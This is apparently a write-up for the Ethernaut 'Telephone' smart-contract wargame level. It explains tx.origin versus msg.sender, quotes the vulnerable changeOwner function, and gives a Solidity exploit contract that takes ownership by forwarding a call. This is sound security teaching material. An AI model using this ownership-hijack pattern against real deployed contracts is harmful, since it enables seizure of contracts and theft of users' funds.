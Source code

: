 ```yaml
---
description: >-
  In Ethernaut's Telephone, we learn the difference between tx.origin and
  msg.sender.
---
```


# 4 - Telephone

The goal of [this level](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768) is to become the contract's owner.

### Hints

<details>

<summary>Hint One</summary>

The solution to this level is to call the contract's `changeOwner` function with a transaction that has a different `tx.origin` and `msg.sender`. The `tx.origin` will always be the originating wallet making the transaction, but `msg.sender` can be a contract address.

</details>

### Full Walkthrough

The solution to this level is straightforward. The contract's `changeOwner` function only requires that `tx.origin` is not equal to `msg.sender`.

```solidity
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```

In Solidity, `msg.sender` always provides the _direct_ sender of the transaction. This could be, for example, a contract that the user called which in turn called another contract. The `tx.origin` is always the **origin** of the transaction, the externally owned address it was originally sent from.

We can solve this level by crafting an exploit contract that forwards our transaction. The exploit contract's address becomes the `msg.sender`, while our player wallet address remains the `tx.origin`.

### Scripted Solution

```solidity
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract TelephoneExploit {
    Telephone public telephoneContract;

    /**
     * @dev Sets `telephoneContract` to instance at `telephoneContractAddress`.
     */
    constructor(address telephoneContractAddress) {
        telephoneContract = Telephone(telephoneContractAddress);
    }

    /**
     * @dev Sets `telephoneContract` owner to calling wallet address.
     */
    function changeTelephoneContractOwner() public {
        telephoneContract.changeOwner(tx.origin);
    }
}
```

### Key Takeaways

* The difference between **tx.origin** and **msg.sender** in Solidity contracts.
